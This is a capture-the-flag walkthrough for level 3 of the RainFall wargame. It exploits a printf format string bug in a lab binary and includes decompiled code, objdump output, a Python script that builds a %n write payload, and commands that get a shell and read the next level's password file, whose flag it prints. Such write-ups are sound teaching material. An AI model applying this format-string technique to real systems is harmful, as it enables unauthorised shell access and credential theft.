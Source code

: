 # Level 03 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The global variable `m` (address: 0x0804988c) must be set to 0x40 to trigger the call to `system("/bin/sh")`.

Relevant code:
```
080484c7        char buffer[0x208]
080484c7        fgets(buf: &buffer, n: 0x200, fp: stdin)
080484d5        printf(format: &buffer)
080484da        uint32_t m_1 = m
080484e2        if (m_1 != 0x40)
08048519            return m_1
08048507        fwrite(buf: "Wait what?!\n", size: 1, count: 0xc, fp: stdout)
08048513        return system(line: "/bin/sh")
```

## Exploitation

To get the address of the variable `m` we use `objdump` :

```
level3@RainFall:~$ objdump -t ./level3 | grep m
./level3:     file format elf32-i386
080481b8 l    d  .dynsym    00000000              .dynsym
08048618 l    d  .eh_frame_hdr    00000000              .eh_frame_hdr
08048654 l    d  .eh_frame    00000000              .eh_frame
0804974c l    d  .dynamic    00000000              .dynamic
00000000 l    d  .comment    00000000              .comment
08049884 l     O .bss    00000001              completed.6159
08048480 l     F .text    00000000              frame_dummy
08048734 l     O .eh_frame    00000000              __FRAME_END__
0804974c l     O .dynamic    00000000              _DYNAMIC
00000000       F *UND*    00000000              system@@GLIBC_2.0
00000000  w      *UND*    00000000              __gmon_start__
00000000       F *UND*    00000000              __libc_start_main@@GLIBC_2.0
0804988c g     O .bss    00000004              m
0804851a g     F .text    0000000d              main
```

We use a format string payload to write 0x40 into the global variable `m`.

And then we just need the offset to build our payload and exploit `printf()`.

```
level3@RainFall:~$ ./level3 
AAAA.%p.%p.%p.%p.%p.%p.%p.%p
AAAA.0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e
```

Python script to generate the payload:
```python
import struct
m_addr = 0x0804988c
offset = 4
payload = struct.pack("<I", m_addr)
payload += b"%60x"
payload += f"%{offset}$n".encode('ascii')
with open('payload.txt', 'wb') as f:
    f.write(payload)
```

## Commands used

```
cat /tmp/payload.txt - | ./level3
ls
cat /home/user/level4/.pass
```

## Result

After running the exploit, we get a shell as level4 and can read the password:

```
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
